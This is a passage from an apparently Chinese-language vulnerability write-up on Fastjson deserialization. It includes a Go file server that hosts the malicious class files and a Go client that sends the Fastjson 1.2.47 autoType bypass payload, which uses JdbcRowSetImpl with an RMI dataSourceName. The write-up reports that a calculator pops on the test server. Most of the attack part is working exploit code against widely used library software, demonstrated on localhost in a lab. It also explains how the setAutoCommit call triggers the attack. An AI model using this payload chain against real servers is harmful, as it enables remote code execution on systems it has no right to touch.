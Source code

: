 `Reference`的`factoryLocation`为class文件的http服务器，笔者使用Golang做了简单的路径映射

注意：不能直接映射到badClassName当前路径，而是classes路径

```
func main() `{`
    mux := http.NewServeMux()
    path := "YourPath\\Fastjson\\target\\classes"
    mux.Handle("/", http.StripPrefix("/", http.FileServer(http.Dir(path))))
    if err := http.ListenAndServe(":8000", mux); err != nil `{`
        fmt.Println("ok")
    `}`
`}`
```

图片是访问`/com/test/shell`后的效果

[![](https://p3.ssl.qhimg.com/t01bc679e1ae27759ea.png)](https://p3.ssl.qhimg.com/t01bc679e1ae27759ea.png)

使用Golang发送Fastjson的`JdbcRowSetImpl`类型的Payload

```
func main() `{`
    clint := &amp;http.Client`{``}`
    payload := "`{`\n" +
        "    \"a\":`{`\n" +
        "        \"@type\":\"java.lang.Class\",\n" +
        "        \"val\":\"com.sun.rowset.JdbcRowSetImpl\"\n" +
        "    `}`,\n" +
        "    \"b\":`{`\n" +
        "        \"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\n" +
        "        \"dataSourceName\":\"rmi://127.0.0.1:1099/Exploit\",\n" +
        "        \"autoCommit\":true\n" +
        "    `}`\n" +
        "`}`"
    // 防止出现意外问题，对Payload进行URL编码
    resp, err := clint.Get("http://127.0.0.1:8080/deserialize?code=" + url.QueryEscape(payload))
    if err != nil `{`
        fmt.Println(err)
    `}`
    fmt.Println(resp.StatusCode)
`}`
```

当我们发送后发现成功弹出计算器

[![](https://p0.ssl.qhimg.com/t01abd04e04c32ff3cf.png)](https://p0.ssl.qhimg.com/t01abd04e04c32ff3cf.png)

既然分析到此处，顺便来看一下1.2.47版本绕过和`JdbcRowSetImpl`的原理，使用a和b两个对象，为了将a设置到缓存`mapping`中在第二个对象加载时绕过哈希黑名单和关闭动态类型机制。`JdbcRowSetImpl`对象我们设置其`autoCommit`属性为`true`是因为在`setAutoCommit`方法中有如下代码

```
public void setAutoCommit(boolean var1) throws SQLException `{`
    if (this.conn != null) `{`
        this.conn.setAutoCommit(var1);
    `}` else `{`
        this.conn = this.connect();
        this.conn.setAutoCommit(var1);
    `}`
`}`
```

